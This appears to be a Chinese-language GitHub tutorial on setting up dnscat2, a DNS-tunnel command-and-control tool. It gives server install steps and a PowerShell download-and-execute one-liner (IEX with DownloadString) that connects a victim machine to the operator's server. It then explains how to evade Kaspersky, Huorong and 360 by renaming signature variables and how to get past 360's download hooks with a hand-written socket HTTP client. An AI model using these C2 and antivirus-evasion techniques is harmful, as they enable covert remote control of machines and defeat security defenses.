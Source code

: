 
### 作者: Mob2003

github地址
```url
https://github.com/Mob2003/HighAvailabilityApt1
```

### 1、简介

dnscat2是一个DNS隧道工具，通过DNS协议创建加密的命令和控制通道，它的一大特色就是服务端会有一个命令行控制台，所有的指令都可以在该控制台内完成。包括：文件上传、下载、反弹Shell……

### 2、服务端安装

项目地址

```shell
https://github.com/iagox86/dnscat2
```

ubuntu 20.04安装说明

```shell
apt install ruby-dev
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
gem install bundler
bundle install
```

启动服务端

```shell
ruby ./dnscat2.rb --no-cache --secret=12345678 www.baidu.com
```

### 3、powershell客户端使用

项目地址

```shell
https://github.com/lukebaggett/dnscat2-powershell
```

打开powershell

```shell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1')
```

连接服务器

```shell
start-Dnscat2 -PreSharedSecret 12345678 -DNSServer 服务器ip  -Domain www.baidu.com
```

如果一切正常，你就可以在服务器上命令行看到New window created
![image](https://user-images.githubusercontent.com/128351726/230552554-32ee3c72-d2ab-4d3e-9b0a-a1d742f681cf.png)


### 4、靶机测试

靶机win10，安装《卡巴斯基》，《火绒》，《360》软件
执行上面命令，这时候会发现有两个问题

- IEX Download后被杀
- 输入命令还没下载就被关掉窗口

### 5、过静态查杀

针对第一个问题，下载ps1源码，对其中变量名，函数调用进行修改与打乱即可，特征大概有两个

1. 源码第三行 $EncodedCompressedFile 

2. 源码第六行，连续调用IO.Compression.DeflateStream 与[IO.MemoryStream][Convert]::FromBase64String
   那么只需要对$EncodedCompressedFile 改个名字，另外再把Frombase64String提取出来做个函数，如下图

![image](https://user-images.githubusercontent.com/128351726/230552595-002a4fe4-9fd2-4bfd-a989-7e3d5102904a.png)


   现在使用各大软件扫描，静态查杀已经通过
   
  ![image](https://user-images.githubusercontent.com/128351726/230552704-80dd3275-5ccc-4a01-83bf-2b37b7cf9424.png)
   
   ### 6、绕过DownloadString限制
   
   高达300多kb的客户端，如果靶机没有文件上传的话，还是很麻烦的，所以要想办法从powershell下载执行。
   经测试360把Webclient的所有下载方法都进行了hook检测，只要有下载动作就强行下载。这里我的解决方案就是，使用socket编程，手撸一个http客户端
   注意，只支持http，不支持https
   
  ![image](https://user-images.githubusercontent.com/128351726/230552751-91b673ba-cd99-40ee-b901-4215676808c4.png)

   拷贝到powershell上执行，没有问题

![image](https://user-images.githubusercontent.com/128351726/230552874-28a2a6ca-b1e1-4825-811f-153f16a60e63.png)



